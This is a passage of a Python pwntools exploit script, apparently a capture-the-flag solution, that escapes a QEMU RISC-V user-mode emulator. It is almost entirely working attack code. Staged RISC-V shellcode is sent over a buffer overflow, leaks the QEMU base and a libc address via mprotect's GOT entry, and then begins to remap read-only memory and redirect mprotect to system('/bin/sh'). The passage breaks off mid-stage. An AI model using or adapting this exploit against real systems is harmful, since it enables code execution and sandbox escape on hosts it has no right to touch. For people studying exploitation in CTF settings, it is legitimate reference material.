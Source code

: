 ```python
    li a2,400                   # a2 = 400
    li a7,63                    # read = 63
    ecall                       # Do syscalls: read(0,0x6c000,400)

    li a0,0x6c000                
    jr (a0)                     # jump 0x6c000
'''
sc = gen_shellcode(shellcode)
io.sendline(b'a'*8+sc.ljust(280,b'a')+p64(0x4000800b48))
io.recvline()

leak = "0x"+str(io.recv(12))[2:-1]
qemu_base = int(leak,16)
log.warn("%x" % qemu_base)

mprotect              = qemu_base + 0x6A3200
qemu_read_only_memory = qemu_base + 0x668000

shellcode2 = '''
    # leak libc and wait for next shellcode
    .global _start
    .text
_start:
    li s3,0x%x                  # s3 = mproctect@got
    ld s1,(s3)                  # s1 = * mproctect@got
    li s2,0x6f000               # s2 = 0x6f000
    sd s1,(s2)                  # * 0x6f000 = * mproctect@got
    li a0,1                     # a0 = 1 
    li a1, 0x6f000              # a1 = 0x6f000
    li a2,100                   # a2 = 100
    li a7, 64                   # write = 64
    ecall                       # Do syscalls: write(1,0x6f000,100), leak mprotect@got -> leak libc

    li a0,0                     # a0 = 0
    li a1,0x6c100               # a1 = 0x6c100
    li a2,400                   # a2 = 400
    li a7,63                    # read = 63
    ecall                       # Do syscalls: read(0,0x6c100,400)

    li a0,0x6c100                
    jr (a0)                     # jump 0x6c100
''' % mprotect

io.sendline(gen_shellcode(shellcode2))
io.recvuntil("riscv")
libc.address = u64(io.recv(8)) - 0x11B8E0
log.success("%x" % libc.address)

shellcode3='''
    # mprotect qemu_read_only_memory to rw
    # modify mproctect@got to system
    # trigger mproctect syscall to execute system("/bin/sh")
    .global _start
    .text
_start:
    li s1, 0x0068732f6e69622f  # Load "/bin/sh" backwards into s1,s2,s3
    li s2, 0x70000             # s2 = 0x70000
    sd s1, (s2)                # Store "/bin/sh" to  0x70000        

    li a0, 0x%x                # a0 = qemu_read_only_memory
    li a1, 0x3c000             # a1 = ro_memory_lenth : 0x3c000
    li a2, 0x6                 # a2 = read|write      : 0x6
    li a7, 226                 # mprotect = 226
```